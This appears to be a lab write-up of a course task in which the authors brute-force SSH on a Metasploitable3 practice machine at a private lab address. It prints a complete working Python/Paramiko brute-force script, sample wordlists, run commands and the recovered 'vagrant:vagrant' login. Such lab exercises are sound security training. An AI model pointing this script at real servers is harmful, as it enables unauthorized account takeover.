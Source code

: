 # Custom Script – SSH Brute-Force with Python

This part shows how we created a custom Python script to perform a brute-force attack on Metasploitable3’s SSH service using multiple usernames and passwords.

---

## Target Info

- **IP Address**: 172.28.128.3
- **Port**: 22
- **Service**: SSH
- **Goal**: Discover valid SSH credentials through brute-force using a Python script.

---

## What We Did

We wrote a custom brute-force script in Python using the **Paramiko** library.

- The script reads **usernames** from `users.txt`.
- It reads **passwords** from `pass.txt`.
- Tries every possible **username:password** pair.
- Stops and saves the valid credentials when login is successful.

---

## The Script (ssh_brute.py)

```python
import paramiko

target_ip = "172.28.128.3"
port = 22

user_file = "users.txt"
pass_file = "pass.txt"
output_file = "valid_credentials.txt"

client = paramiko.SSHClient()
client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

with open(user_file, 'r') as users, open(pass_file, 'r') as passwords:
    for username in users:
        for password in passwords:
            username = username.strip()
            password = password.strip()
            try:
                print(f"Trying {username}:{password}")
                client.connect(target_ip, port=port, username=username, password=password, timeout=5)
                print(f"[+] Success: {username}:{password}")
                with open(output_file, "w") as valid:
                    valid.write(f"{username}:{password}\n")
                client.close()
                exit()
            except paramiko.AuthenticationException:
                print(f"[-] Failed: {username}:{password}")
            except Exception as e:
                print(f"[!] Error: {e}")
        passwords.seek(0)
```

---

## Wordlists Used

**users.txt**

```
admin
msfadmin
root
vagrant
test
```

**pass.txt**

```
password
123456
msfadmin
vagrant
admin123
```

---

## How We Ran It

1. Installed **Paramiko** in Kali Linux:

```bash
sudo apt install python3-paramiko
```

2. Saved the script as **ssh_brute.py**.

3. Ran the script in terminal:

```bash
python3 ssh_brute.py
```

---

## Result

- The script tested multiple combinations of usernames and passwords.
- After several failed attempts, it successfully logged in with:

```
[+] Success: vagrant:vagrant
```

- The valid credentials were saved to **valid_credentials.txt**.

---

## Screenshot

We captured a screenshot showing the script successfully finding the credentials.  
📁 File saved as: **custom_script_attack.png**

---

## Conclusion

This script demonstrates how brute-force attacks can be automated using simple Python code. It mimics tools like Hydra but is built from scratch for learning and demonstration purposes.

This completes **Task 1.2 for Phase 1**.

